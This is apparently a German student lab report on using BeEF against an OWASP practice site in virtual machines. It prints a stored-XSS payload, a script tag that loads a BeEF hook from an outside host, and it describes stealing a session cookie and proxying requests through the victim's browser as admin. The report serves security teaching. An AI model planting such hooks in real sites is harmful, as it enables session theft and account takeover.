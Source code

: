 \section{Burp Suite}


\section{Beef}

\paragraph{Vorbereitung}

Wir haben die VMs gestartet und unter der 192.168.1.36 die Website von OWASP aufgerufen. Da gibt es einen Blog, bei dem Einträge hinzugefügt werden können. Diese Einträge möchten wir für die XSS Attacke ausnutzen und Schadcode in Form der Hoock einschleusen. Der Hook ist unter http://127.0.0.1:3000/hook.js erreichbar. Entrsprechend wurde ein Blog Eintrag mit dem Inhalt <script src="http://192.168.1.1:3000/hook.js"></script> erstellt. Da dieses script nicht als Text, sondern als tatsächliches Script in die Seite eingebunden wird, ist diser Angriff möglich. Nach kurzer Zeit wurde bei Beef angezeigt, dass ein Zombie existiert. Die Vorbereitung war also erfolgreich.

\paragraph{Der erste Angriff}
Im ersten Angriff wurde in Beef ein Angriff auf das Session Coockie ausgeführt. Dazu wurde unter Command der entsprechende Angriff gewählt und ausgeführt. Nach kurzer Zeit wurde das Session-Coockie ausgegeben.

\paragraph{Der zweite Angriff}
Im zweiten Angriff wurde das Opfer als Proxy verwendet und in seinem Namen eine Anfrage gesendet. Mit Beef ist es möglich eine Anfrage zu bauen und diese im Namen des Opfers auszuführen. Damit wurde die Seite im Namen des Opfers aufgerufen, in der Antwort war dann zu sehen, dass unser Opefer als Admin angemeldet ist. Somit könnten dieser Theoretisch als Admin für Angriffe gebraucht werden.